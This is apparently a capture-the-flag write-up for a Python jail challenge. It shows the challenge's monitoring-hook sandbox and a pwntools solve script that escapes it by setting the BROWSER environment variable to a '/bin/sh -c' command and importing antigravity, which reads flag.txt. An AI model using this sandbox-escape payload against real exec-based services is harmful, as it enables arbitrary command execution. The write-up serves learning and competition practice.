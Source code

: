 # computer-monitor

```
so i bought a computer monitor from the store recently for my computer but i think now i need to buy a new computer as well

nc challs2.pyjail.club 28684
```

Attachment:

```python
#!/usr/local/bin/python3

import sys
from os import _exit

sm = sys.monitoring
sm.use_tool_id(2, 'computer-monitor')

inp = input('> ')
code = compile(inp, '<string>', 'exec')

exit_hook = lambda *a: _exit(0)
sm.set_local_events(2, code, sm.events.BRANCH + sm.events.CALL)
sm.register_callback(2, sm.events.BRANCH, exit_hook)
sm.register_callback(2, sm.events.CALL, exit_hook)
exec(code, {}, {})
```

It attachs `BRANCH` and `CALL` hooks to our code. However, `import` is not restricted. Following [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/), we can get shell if we have access to environ and `import`:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs2.pyjail.club", 28684)
p.recvuntil(b"> ")
p.sendline(b"""import os;os.environ['BROWSER']='/bin/sh -c "cat flag.txt" #%s';import antigravity""")
p.interactive()
```

Flag: `jail{i_am_proto_your_security_is_my_motto_install_me_on_your_computer_to_protect_your_data_better_f6b37a6e6d0b0af2b5da77a61cd0af7c}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf).
